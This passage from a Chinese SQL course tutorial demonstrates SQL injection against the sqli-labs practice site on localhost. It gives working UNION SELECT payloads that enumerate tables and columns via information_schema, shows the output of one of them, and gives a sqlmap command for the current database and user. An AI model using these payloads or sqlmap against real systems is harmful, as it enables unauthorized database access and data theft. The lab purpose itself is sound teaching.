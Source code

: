 ### 查询wucai数据库中所有数据表

在上面的实验中，我们已经得到了MySQL中所有的数据库名称，这里我们能看到wucai这个数据库。如果我们想要看wucai这个数据库中都有哪些数据表，可以使用：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='wucai') --+
    

```

这里我们同样将数据表名称使用GROUP\_CONCAT函数拼接起来，作为字段3进行返回。

![](/images/sql必知必会/03.第二章SQL性能优化篇/resourceimage7ea77e1aa81c623e28c87666cfdd290462a7.png)

### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information\_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+
    

```

这里会将字段使用GROUP\_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
    attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main
    

```

![](/images/sql必知必会/03.第二章SQL性能优化篇/resourceimagef3bff30c7a68fba4fd8eff3ea8370aca00bf.png)

## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问`information_schema`就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息

我们使用`sqlmap \-u`来指定注入测试的URL，使用`--current-db`来获取当前的数据库名称，使用`--current-user`获取当前的用户信息，具体命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db --current-user
    

```

